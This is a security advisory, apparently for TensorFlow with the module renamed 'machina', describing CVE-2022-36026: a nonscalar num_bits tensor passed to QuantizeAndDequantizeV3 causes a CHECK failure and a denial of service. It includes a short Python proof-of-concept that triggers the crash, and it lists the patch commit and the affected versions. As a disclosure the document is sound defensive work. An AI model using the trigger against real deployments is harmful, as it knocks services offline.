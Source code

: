 ## TFSA-2022-112: `CHECK` fail in `QuantizeAndDequantizeV3`

### CVE Number
CVE-2022-36026

### Impact
If `QuantizeAndDequantizeV3` is given a nonscalar `num_bits` input tensor, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import machina as tf

signed_input = True
range_given = False
narrow_range = False
axis = -1
input = tf.constant(-3.5, shape=[1], dtype=tf.float32)
input_min = tf.constant(-3.5, shape=[1], dtype=tf.float32)
input_max = tf.constant(-3.5, shape=[1], dtype=tf.float32)
num_bits = tf.constant([], shape=[0], dtype=tf.int32)
tf.raw_ops.QuantizeAndDequantizeV3(input=input, input_min=input_min, input_max=input_max, num_bits=num_bits, signed_input=signed_input, range_given=range_given, narrow_range=narrow_range, axis=axis)
```

### Patches
We have patched the issue in GitHub commit [f3f9cb38ecfe5a8a703f2c4a8fead434ef291713](https://github.com/machina/machina/commit/f3f9cb38ecfe5a8a703f2c4a8fead434ef291713).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.

